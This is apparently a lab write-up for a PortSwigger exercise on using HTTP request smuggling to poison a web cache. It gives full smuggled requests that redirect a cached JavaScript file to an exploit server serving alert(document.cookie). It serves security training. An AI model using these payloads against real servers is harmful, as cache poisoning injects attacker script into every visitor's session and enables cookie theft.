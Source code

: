 # Exploiting HTTP request smuggling to perform web cache poisoning

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

## Reproduction and proof of concept

1. Open a blog post, click **Next post**, and try smuggling the resulting request with a different Host header.

```text
POST / HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a `text/javascript` file at `/post` with the contents:
    `alert(document.cookie)`
4. Create a request to smuggle:

```html
POST / HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0aee007003418db3c294d0b301a6004e.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

5. Make a second Repeater window with a separate request for `/resources/js/tracking.js`:

```text
GET /resources/js/tracking.js HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Connection: close
```

6. Send the first request once until you have a `302` response, then send the request for `/resources/js/tracking.js` multiple times. Sometimes this second request does not redirect as it is still using the cache, in which case go back to the POST smuggle request for another `302` and try again. It may take several times before the attack succeeds. If the attack has succeeded, the response to the request shows a redirect to the exploit server.

![HTTP header smuggling](../../_static/images/smuggling15.png)

## Exploitability

An attacker will need to perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache would alert `document.cookie`. The lab simulates the activity of a victim user. Every few POST requests that an attacker makes to the lab, the victim user will make their own request. An attacker might need to repeat their attack a few times to ensure that the victim user's request occurs as required.
